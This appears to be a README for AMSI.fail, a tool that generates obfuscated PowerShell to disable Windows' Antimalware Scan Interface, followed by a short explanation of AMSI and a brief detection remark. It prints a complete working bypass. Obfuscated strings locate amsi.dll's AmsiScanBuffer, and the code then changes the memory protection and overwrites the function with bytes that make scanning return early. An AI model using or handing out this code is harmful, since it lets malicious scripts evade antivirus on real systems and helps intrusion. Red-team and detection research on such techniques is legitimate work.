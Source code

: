 # AMSI bypass

## AMSi.fail
Link to resource (https://amsi.fail/)
AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before being obfuscated. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures.

```Powershell
#Rasta-mouses Amsi-Scan-Buffer patch \n
$luezn = @"
using System;
using System.Runtime.InteropServices;
public class luezn {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr gaayhl, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $luezn

$injunwe = [luezn]::LoadLibrary("$(('ámsí.'+'dll').NORmAlize([cHAr]([ByTE]0x46)+[chAR]([bYTE]0x6f)+[chaR](114*109/109)+[cHar]([BYtE]0x6d)+[cHaR](68+54-54)) -replace [cHar](92+68-68)+[chaR]([BYTe]0x70)+[CHAr](123)+[cHar]([BYtE]0x4d)+[CHAR](110*45/45)+[cHar](125))")
$tkpctk = [luezn]::GetProcAddress($injunwe, "$([ChAR](8+57)+[cHAR](109+50-50)+[cHAR](115*56/56)+[CHAR]([bYTE]0x69)+[Char](36+47)+[cHAR](99)+[cHaR]([bYte]0x61)+[char]([BYTE]0x6e)+[CHar]([bYTE]0x42)+[char]([bYte]0x75)+[ChAR]([bytE]0x66)+[CHaR](83+19)+[cHAr](101*68/68)+[chAr](38+76))")
$p = 0
[luezn]::VirtualProtect($tkpctk, [uint32]5, 0x40, [ref]$p)
$xtwu = "0xB8"
$dtcl = "0x57"
$kpnv = "0x00"
$cjij = "0x07"
$jjki = "0x80"
$usev = "0xC3"
$vdxhq = [Byte[]] ($xtwu,$dtcl,$kpnv,$cjij,+$jjki,+$usev)
[System.Runtime.InteropServices.Marshal]::Copy($vdxhq, 0, $tkpctk, 6)
```

### What is AMSI?
As f-secure explained in one of their excellent blog-posts:

AMSI is an interface on which applications or services (third-party included) are able to scan a script’s content for malicious usage. If a signature in the script is registered by the AMSI antimalware service provider (Windows Defender by default), it will be blocked.
To put this into context, consider the following steps PowerShell takes to integrate with AMSI:

When a PowerShell process is created, AMSI.DLL is loaded from disk into its address space.
Within AMSI.DLL, there’s a function known as AmsiScanBuffer(), essentially the function used to scan a script’s content.
In the PowerShell command prompt, any supplied content would first be sent to AmsiScanBuffer(), before any execution takes place.
Subsequently, AmsiScanBuffer() would check with the registered anti-virus to determine if any signatures have been created.
If the content is deemed malicious, it would be blocked.
Since AMSI relies on being loaded within the process executing the actual script, techniques to break or patch specific functions within amsi.dll are well known.

### Detection
All the demonstrated techniques rely on tampering with the amsi.dll library within the operating process, generic tamper-detection is key.

### Credits
Major credit to MartinIngesen for porting the original C# code into JS! :)
https://github.com/yenchiah/project-website-template
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
https://twitter.com/mattifestation/status/735261120487772160

